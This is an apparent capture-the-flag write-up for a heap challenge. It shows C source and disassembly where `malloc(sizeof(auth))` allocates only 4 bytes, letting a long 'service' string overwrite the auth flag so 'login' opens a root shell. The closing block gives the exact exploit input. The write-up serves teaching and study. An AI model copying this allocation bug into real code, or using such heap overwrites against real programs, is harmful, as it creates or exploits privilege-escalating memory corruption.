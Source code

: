 So the first thing we notice is a struct. We will come back to this later

```C
struct auth { //note the lack of typedef
  char name[32];
  int auth;
};

struct auth *auth; // naming the struct pointer the same as the struct its self
char *service;
```




Let's look at the auth function
```C    
if(strncmp(line, "auth ", 5) == 0)
{
    auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
    memset(auth, 0, sizeof(auth));

    if(strlen(line + 5) < 31)
        strcpy(auth->name, line + 5);
}
```

and the corresponding assembly

```C
auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
```

```asm
804866e:	83 ec 0c             	sub    esp,0xc
8048671:	6a 04                	push   0x4 ; only 0x4 bytes!!
8048673:	e8 08 fe ff ff       	call   8048480 <malloc@plt>
8048678:	83 c4 10             	add    esp,0x10
804867b:	a3 e8 9a 04 08       	mov    ds:0x8049ae8,eax
```
This is the main bug in this program. Because the dev wrote `sizeof(auth)` and not `sizeof(struct auth)`, there will be `0x4` bytes of memory (the size of `*auth`) allocated and not `0x24` (the size of `struct auth`).




Lets see what happens with the service case.
```C
if(strncmp(line, "service", 6) == 0)
    service = strdup(line + 7); //this will stored on the heap
```
Notice that we do not have any restrictions on the amount of memory allocated.


Let's take a look at the login command

```c    
if(strncmp(line, "login", 5) == 0)
{
  if(auth->auth)
  {
      printf("Welcome Adnim!\n");
      system("/bin/sh");
  } else
      printf("please enter your password\n");
}
```  

the most important line

```c
if(auth->auth)
```

```asm
8048751:	a1 e8 9a 04 08       	mov    eax,ds:0x8049ae8
8048756:	8b 40 20             	mov    eax,DWORD PTR [eax+0x20] ;0x20 offset
8048759:	85 c0                	test   eax,eax
804875b:	74 25                	je     8048782 <main+0x187>
```


![A basic visualization](https://github.com/kablaa/CTF-Workshop/blob/master/writeups/heap2/heap.png)

So what is happening is this: Because only 0x4 bytes are being allocated on the heap, and because `auth->auth` is at `<location of auth> + 0x20`, `service` is now located _before_ `auth->auth`. So we can overwrite the value.

so we can run
```sh
auth lessthan32bits
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
login
```

This is why we should be careful with how we name our variables kids!
